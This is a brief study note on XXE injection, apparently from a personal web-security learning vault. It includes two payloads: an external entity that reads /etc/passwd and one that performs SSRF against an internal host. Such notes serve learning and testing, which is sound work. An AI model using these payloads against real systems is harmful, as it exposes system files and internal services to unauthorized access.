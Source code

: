 ### Where to look

- Look in requests that contain XML

### What to try

- Try `<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>` with `&xxe;` to fetch a file from the file system
- Try `<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>` with `&xxe;` to create a SSRF attack to reach out to other accessible servers
- 

### More Details

More details can be found at [[Cyber Security/Learning/Web Security Academy/XXE Injection|XXE Injection]]
